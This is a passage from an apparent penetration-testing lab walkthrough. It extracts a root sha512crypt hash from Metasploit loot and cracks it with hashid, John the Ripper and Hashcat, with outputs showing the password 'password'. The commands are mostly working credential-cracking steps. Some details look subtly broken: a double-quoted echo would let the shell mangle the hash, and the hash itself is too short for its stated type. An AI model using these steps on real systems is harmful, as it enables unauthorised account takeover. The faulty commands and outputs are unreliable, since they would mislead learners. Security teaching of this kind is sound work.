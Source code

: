 #### **🏆 Mission Accomplished:**
- **Password successfully cracked** using single-word attack mode
- **Username:** root (system administrator)
- **Password:** password (extremely weak password)
- **Hash Type:** sha512crypt (SHA-512 based encryption)
- **Cracking Method:** Single mode (fastest method)

#### **Technical Achievement:**
The automated cracking process successfully recovered the plaintext password in under 2 seconds, demonstrating the weakness of simple passwords even with strong encryption.

---

### **Step 8: Manual Hash Identification and Verification**

**What We're Doing:** Learning to identify hash types manually and verify results

#### **Extract Hash for Analysis:**
```bash
# Extract hash file from previous step
cat /root/.msf4/loot/*linux.hashes*.txt
# Output: root:$6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef:18470:0:99999:7:::
```

#### **Identify Hash Type:**
```bash
hashid '$6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef'
# Output: SHA-512 Crypt [Hashcat Mode: 1800]
```

#### **Manual Cracking with John the Ripper:**
```bash
# Save hash to file for John
echo "root:$6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef:18470:0:99999:7:::" > /tmp/shadow_hash.txt

# Crack with John the Ripper
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/shadow_hash.txt
# Output: password (root)

# Show cracked passwords
john --show --format=sha512crypt /tmp/shadow_hash.txt
# Output: root:password:18470:0:99999:7:::
```

#### **GPU-Accelerated Cracking with Hashcat:**
```bash
# Prepare hash file for Hashcat (hash only, no username)
echo '$6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef' > /tmp/hash_only.txt

# Crack with Hashcat (mode 1800 = SHA-512 Crypt)
hashcat -m 1800 -a 0 /tmp/hash_only.txt /usr/share/wordlists/rockyou.txt
# Output: $6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef:password

# Show cracked results
hashcat --show -m 1800 /tmp/hash_only.txt
# Output: $6$waRZ5SNJ$Y8/hWOJbvvS5bH8I8jFJN4t1r0CJo1LY1.Cf3x1YpKVoK.nnF7J8MQ7mD9Eef5J4R$Ef:password
```
